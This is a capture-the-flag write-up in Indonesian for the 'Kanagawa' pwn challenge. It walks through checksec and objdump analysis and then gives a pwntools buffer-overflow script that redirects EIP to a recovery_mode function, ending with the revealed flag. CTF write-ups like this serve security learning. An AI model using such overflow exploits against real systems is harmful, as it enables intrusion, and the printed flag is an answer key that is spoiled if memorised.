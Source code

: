 # Kanagawa
---
nc challs.dvc.tf 4444 or nc challs.dvc.tf 7777
# Solver
---
Diberikan binary file. Pertama yang saya lakukan adalah mengunakan tool ```checksec``` ternyata tidak ada canary dan tidak ada PIE juga. Yaudah saya cek dulu menggunakan ```objdump``` untuk mengetahui fungsi yang ada ternyata ada fungsi ```0804851b <recovery_mode>``` yang berisikan cat flag. Hmmmm punya ide buat nge overflow lalu ```EIP``` pada program saya arahkan ke fungsi ```recovery_mode```. Begini kodingan saya hehehe
```
from pwn import *
program = ELF("./kanagawa")
pattern = "A"*cyclic_find("kaaa")
flag = p32(0x0804851b)
p = process("./kanagawa")
p = remote("challs.dvc.tf",4444)
#raw_input("Gdb gan")
p.recvuntil("Email: ")
p.sendline(pattern + flag)

p.interactive()

```
Dan dapat flagnya
#### dvCTF{0v3rfl0w_tsun4m1}
